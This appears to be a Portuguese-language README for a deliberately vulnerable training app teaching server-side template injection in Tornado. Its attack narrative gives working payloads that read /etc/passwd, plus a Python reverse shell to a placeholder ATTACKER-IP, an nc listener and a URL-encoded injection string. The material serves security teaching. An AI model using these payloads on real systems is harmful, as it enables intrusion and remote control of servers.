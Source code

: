 # SSType

<p align="center"><img  src="src/images/ssti-logo.png"/></br>
    <a href="README.md"><img height="24" title="Access content in English" src="https://img.shields.io/badge/Access%20content%20in-English-blue"/></a></p>

SSType é um aplicativo web Python simples que contém um exemplo de uma vulnerabilidade de injeção de modelo do lado do servidor no Tornado. Neste exemplo, uma subcategoria específica de Injeção será exemplificada: Server Side Injection ou SSTI.

## Index

- [SSType](#sstype)
  - [Index](#index)
  - [O que é injeção?](#o-que-é-injeção)
  - [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
  - [Conheça o app 💉](#conheça-o-app-)
  - [Narrativa de ataque](#narrativa-de-ataque)
    - [👀](#)
      - [Lack of input validation allows injection of OS commands](#lack-of-input-validation-allows-injection-of-os-commands)
    - [🔥](#-1)
  - [Proteger este aplicativo](#proteger-este-aplicativo)
  - [PR Soluções](#pr-soluções)
  - [Contribuição](#contribuição)

## O que é injeção?

Falhas de injeção, como injeção de SQL, NoSQL, SO e LDAP, ocorrem quando dados não confiáveis ​​são enviados a um interpretador como parte de um comando ou consulta. Os dados hostis do invasor podem induzir o intérprete a executar comandos não intencionais ou acessar dados sem a devida autorização.

O principal objetivo deste projeto é discutir como as vulnerabilidades de **SQL Injection** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/sstype
```

```sh
make install
```

Depois é só visitar [localhost:10001][app], conforme exemplificado abaixo:

<p align="center"><img  src="images/SSType.jpg"/></p>

## Conheça o app 💉

Para entender corretamente como este aplicativo funciona, você pode fazer uma pesquisa usando `name` como uma string de consulta usando um [browser](http://localhost:10001/?name=Vitor) ou usando `curl` em um terminal: 

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"><img  src="images/attack0.png"/></p>

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### 👀

#### Lack of input validation allows injection of OS commands

Após revisar o código da aplicação, foi possível verificar que a entrada do usuário (variável `name` querystring) não está sendo tratada corretamente antes de ser renderizada no template, conforme mostrado nos trechos de código a seguir: 

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

Para confirmar que o campo de entrada é vulnerável, a seguinte carga útil pode ser usada para testar se o resultado de `4*4` pode ser renderizado na página:
```
http://localhost:10001/?name={{4*4}}
```

Quando esta requisição chegar à aplicação, `NAMEHERE` será substituído no HTML e executará a matemática, retornando `16`:

```html
<h3>Hello: {{4*4}}</h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"><img  src="images/attack1.png"/></p>

### 🔥

Um invasor pode agora criar qualquer comando malicioso que, em teoria, será executado. O primeiro passo que podemos fazer é tentar ler o conteúdo do arquivo `/etc/passwd`. Para fazer isso, usaremos o seguinte comando Python como a string de consulta `name`:

```python
{%import os%}{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"><img  src="images/attack2.png"/></p>

Excelente! Agora que podemos executar comandos no servidor que hospeda o aplicativo, um script Python malicioso para nos fornecer um shell de alguma forma no servidor da vítima pode ser criado. Vamos dar uma olhada no seguinte exemplo:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell
p=subprocess.call(["/bin/bash","-i"]);
```

Para receber um shell reverso, primeiro precisamos usar `nc` em nosso terminal para ouvir todas as conexões que chegam ao nosso `ATTACKER-IP` e `ATTACKER-PORT` e depois executar este script Python no servidor vítima:

```sh
nc -nlv ATTACKER-PORT
```

Mas como podemos usar esse payload dentro do parâmetro `name`? Para fazer isso, podemos compactá-lo usando múltiplos `;` para separar cada instrução, resultando na seguinte carga útil:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{%import os%}{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

No entanto, como pode haver alguns caracteres especiais nessa string, precisamos escapar deles antes de injetá-los no aplicativo vulnerável (este [codificador de URL online](https://www.urlencoder.org/) pode ajudar) e esperamos como o Shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"><img  src="images/attack3.png"/></p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após a modificação do código, um invasor não poderá executar comandos no servidor.

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ASSType)!

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
[secdevlabs]: https://github.com/globocom/secDevLabs
